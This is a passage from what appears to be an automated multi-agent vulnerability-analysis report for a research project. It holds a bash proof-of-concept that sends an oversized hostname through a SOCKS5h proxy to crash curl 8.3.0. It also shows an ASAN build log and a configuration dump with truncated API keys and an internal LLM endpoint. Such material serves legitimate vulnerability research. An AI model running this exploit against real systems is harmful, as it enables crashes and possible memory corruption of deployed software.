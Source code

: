 # Construct long-host URL
URL="http://$(python3 - <<PY
import sys
print('a'*$HOSTLEN)
PY
)/"

echo "[+] Using curl: $CURL_BIN"
echo "[+] Proxy PID: $PROXY_PID with per-byte delay $PROXY_DELAYs"
echo "[+] Host length: $HOSTLEN"
echo "[+] Log: $POC_LOG"

ulimit -c unlimited || true

SUCCESS=0
for i in $(seq 1 "$RUNS"); do
  echo "[+] Run $i/$RUNS" | tee -a "$POC_LOG"
  set +e
  "$CURL_BIN" -vvv --no-progress-meter --limit-rate 1k -x "socks5h://$PROXY" "$URL" --max-time 20 2>&1 | tee -a "$POC_LOG"
  RC=${PIPESTATUS[0]}
  set -e
  if [[ $RC -eq 139 ]] || grep -q "Segmentation fault" "$POC_LOG"; then
    echo "[+] Detected crash (exit=$RC)" | tee -a "$POC_LOG"
    SUCCESS=$((SUCCESS+1))
  else
    echo "[-] No crash (exit=$RC)" | tee -a "$POC_LOG"
  fi
  sleep 1
done

echo "[+] Summary: $SUCCESS/$RUNS runs crashed" | tee -a "$POC_LOG"
exit 0



asan.output
[03:58:44]
ASAN build skipped: source tree missing at /codebase/curl-8.3.0.
Please provide source path to build an AddressSanitizer-instrumented curl for backtrace capture.



---

rich_console=<console width=99 ColorSystem.TRUECOLOR> openai_api_key='sk-svcacct-...' llm_api_key='sk-...' llm_base_url='https://litellm.faigle.dev' max_reprompts=5 model='openai/gpt-5' model_temperature=1.0 reasoning_model='openai/gpt-5' max_turns=75 session_db_path='./sessions.sqlite' log_level='INFO' trace_name='multi-agent curl' sandbox_image='vuln-curl:latest' setup_archive='/home/julian/Desktop/Bachelorarbeit/testdata/screen/upload.tgz' codebase_path='/home/julian/Desktop/Bachelorarbeit/testdata/curl/codebase' vulnerable_folder='curl-8.3.0' patched_folder='curl-8.4.0' chroma_path='/home/julian/Desktop/Bachelorarbeit/ivexes/chroma/' embedding_model='intfloat/multilingual-e5-large-instruct' embedding_provider='local'

---

---
*Report generated by IVEXES Multi-Agent Security Analysis System*
